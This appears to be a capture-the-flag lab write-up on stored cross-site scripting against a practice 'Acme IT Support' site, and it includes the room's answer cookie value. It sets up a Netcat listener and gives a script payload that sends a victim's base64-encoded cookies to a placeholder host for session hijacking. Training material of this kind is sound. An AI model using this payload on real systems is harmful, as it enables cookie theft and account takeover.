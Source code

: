 ```
Some helpful information to extract from another user would be their cookies, which we could use to elevate our privileges by hijacking their login session. To do this, our payload will need to extract the user's cookie and exfiltrate it to another webserver server of our choice. Firstly, we'll need to set up a listening server to receive the information.

```Using the AttackBox```, let’s set up a listening server using Netcat. If we want to ```listen on port 9001```, we issue the command ```nc -l -p 9001```. 
- The ```-l``` option indicates that we want to use Netcat in ```listen``` mode, 
- The ```-p``` option is used to specify the ```port number```. 
- To avoid the resolution of hostnames via DNS, we can add ```-n```
- To discover any errors, running Netcat in verbose mode by adding the ```-v``` option is recommended. The final command becomes 
```
nc -n -l -v -p 9001
```
equivalent to 
```
nc -nlvp 9001.
```
#### nc
```
user@machine$ nc -nlvp 9001
```
```
Listening on [0.0.0.0] (family 0, port 9001)
```
Now that we’ve set up the method of receiving the exfiltrated information, let’s build the payload.


```
</textarea><script>fetch('http://URL_OR_IP:PORT_NUMBER?cookie=' + btoa(document.cookie) );</script>
```
Let’s break down the payload:

- The ```</textarea>``` tag closes the text area field.
- The ```<script>``` tag opens an area for us to write JavaScript.
- The ```fetch()``` command makes an HTTP request.
- ```URL_OR_IP``` is either the THM request catcher URL, your IP address from the THM AttackBox, or your IP address on the THM VPN Network.
- ```PORT_NUMBER``` is the port number you are using to listen for connections on the AttackBox.
- ```?cookie=``` is the query string containing the victim’s cookies.
- ```btoa()``` command base64 encodes the victim’s cookies.
document.cookie accesses the victim’s cookies for the Acme IT Support Website.
- ```</script>```closes the JavaScript code block.

Now create another ticket using the above payload, making sure to ```swap out``` the ```URL_OR_IP:PORT_NUMBER``` variables with your settings (make sure to specify the ```port number``` as well for the Netcat listener). Now, wait up to a minute, and you will see the request come through containing the victim’s cookies.

#### Note: 
You may encounter issues with receiving the request using your own VM and the VPN. It is recommended you use the AttackBox for this task.

You can now ```base64 decode``` this information using a site like ```https://www.base64decode.org/```, giving you the necessary information to answer the below question.


---
What is the value of the staff-session cookie?
Answer : 4AB305E55955197693F01D6F8FD2D32

![img](/assets/img/cross-site14.png)
---
